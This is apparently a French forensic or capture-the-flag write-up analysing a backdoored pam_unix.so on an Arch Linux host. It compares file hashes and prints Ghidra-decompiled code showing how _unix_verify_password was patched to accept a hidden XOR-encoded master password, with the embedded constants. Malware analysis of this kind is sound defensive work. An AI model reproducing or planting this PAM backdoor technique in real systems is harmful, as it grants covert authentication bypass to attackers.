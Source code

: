 Analyses des fichiers implantés (B) vs les fichiers originaux (G):

```
                                            size B  md5 B                               size G  md5 G
/lib/security/pam_unix.so                   51064   1b552c11453d3b51a972ec383218a225    51064   4b2b29efd6608262238d11d448300e48
/lib64/security/pam_unix.so                 51064   1b552c11453d3b51a972ec383218a225    51064   4b2b29efd6608262238d11d448300e48
/usr/lib/security/pam_unix.so
/usr/lib64/security/pam_unix.so
/var/lib/pacman/local/pam-1.6.0-3/mtree     28530   5428f290a45a1784052b259a0f22334c    28532   67c31a157b5c12373759e35a82f5cc98
/var/lib/systemd/random-seed                
```

Décompilation du code source de la librairie `pam_unix.so` modifiée et originale via gHidra.

Récupération des sources originales : https://mirrors.mit.edu/archlinux/sources/packages/pam-1.6.0-3.src.tar.gz

La comparaison du code C décompilé des binaires est longue et fastidieuse.. mais porte ses fruits.



Le code malicieux a été injecté dans la fonction `_unix_verify_password` :


```c
  do {
    if (p[lVar4] == 0) break;
    lVar9 = lVar4 + 1;
    bVar15 = bVar15 | p[lVar4] ^ *(byte *)((long)&local_2c8 + lVar4) ^
                      *(byte *)((long)&local_328 + (ulong)((uint)lVar4 & 0x1f));
    lVar4 = lVar9;
  } while (lVar9 != 0x3e);
  if ((bVar15 == 0) || (bVar14)) {
    retval = 0;
  }
```

La fonction semble effectuer des opérations XOR pour chaque caractère du mot de passe avec les données de 2 variables.

La déclaration des variables obtenue via la décompilation ghidra est étrange et il est compliqué a comprendre.

```
  local_328 = 0x6f5f4577;
  uStack_324 = 0x9688907c;
  uStack_320 = 0x4705b114;
  uStack_31c = 0x1b4e8e33;
  local_318 = 0x1032828b8af8070a;
  uStack_310 = 0x5fbb2a55;
  uStack_30c = 0x1c3fc671;
  local_2c8 = 0xf2f3d6282c6b7543;
  uStack_2c0 = 0x770fd15d7631dc27;
  local_2b8 = 0x7654b2d4bf917f39;
  uStack_2b0 = 0x2ce44f27;
  uStack_2ac = 0x6c60881e;
  local_2a8 = 0x11f3644;
  uStack_2a4 = 0xf3cccf08;
  uStack_2a0 = 0x7777d24b;
  uStack_29c = 0x7a3dfd5a;
  uStack_298 = 0x6dd7ead58b3044;
  uStack_291 = 0xbb342dc95f6672;
```
